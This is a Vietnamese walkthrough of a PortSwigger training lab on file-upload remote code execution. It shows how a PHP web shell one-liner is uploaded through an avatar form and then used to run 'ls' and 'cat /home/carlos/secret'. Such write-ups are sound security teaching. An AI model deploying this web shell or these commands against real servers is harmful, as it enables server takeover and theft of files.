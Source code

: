 ## 1. Thông tin bài lab
- Tên lab: **Remote code execution via web shell upload**
- Loại lỗ hổng: File upload -> RCE (Remote Code Execution)
- Link bài lab: [Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)
- **Mục tiêu**: Upload webshell vào thư mục thực thi mã PHP, chiếm quyền điều khiển server và đọc nội dung tệp tin bí mật _**/home/carlos/secret**_
## 2. Phân tích ban đầu
**Chức năng ứng dụng:** 
- Sau khi đăng nhập tài khoản người dùng, người dùng có thể update email, upload ảnh avatar của người dùng.

img

- Sau khi upload, ứng dụng thông báo đã upload thành công và đường dẫn lưu file ảnh upload.

img

-	Thử truy cập file ảnh đã upload theo đường dẫn từ response nhưng không truy cập được file ảnh

img

-	Thử nghiệm trên một số đường dẫn khác

img

- Ta có thể truy cập đến file ảnh đã upload theo đường dẫn _**/files/avatars/test.png**_

  img

**Đặt giả thuyết**
-	Kiểm tra xem liệu ta có thể upload và thực thi một file php bằng cách tạo một file tên test.php với nội dung <?php phpinfo(); ?> và upload lên server.

img

**Kiểm tra giả thuyết**
-	Sử dụng phương thức GET để truy cập đến file test.php, ta có thể thấy trang web đã thực thi file php mà ta đã upload. Qua đó, ta có thể tạo một web shell để RCE và đọc nội dung tệp tin bí mật.

img

## 3. Tiến hành khai thác
- Tạo một file tên _shell.php_ với nội dung là đoạn code php:

```<?php echo system($_GET['x']) ?>```

Đoạn code cho phép thực thi câu lệnh hệ thống, trong đó x là tham số ta có thể truyền vào qua URL.

img

-	Gói tin Response thông báo upload file shell.php thành công:

img

- Sử dụng phương thức GET và truyền vào tham số `x=ls` để liệt kê các file trong thư mục _**/files/avatars**_
-	Ta thấy có thể truyền lệnh ls và server có thể thực hiện theo ý của ta. 

img

-	Tiếp tục truyền tham số `x=cat /home/carlos/secret` thông qua Burp Suite để đọc nội dung file.
-	Khi gửi gói tin, ta gặp lỗi Bad Request, thử lại trên trình duyệt.

img

-	Khi ta thử lại trên trình duyệt, ta đã đọc được nội dung file bí mật

img

**Chú ý:** Khi truyền tham số trên trình duyệt, ta có thể thấy URL trên trình duyệt đã tự động mã hóa _“khoảng trống”_ thành _%20_. Thử lại trên Burp Suite thì có thể đọc được nội dung của file bí mật.

img














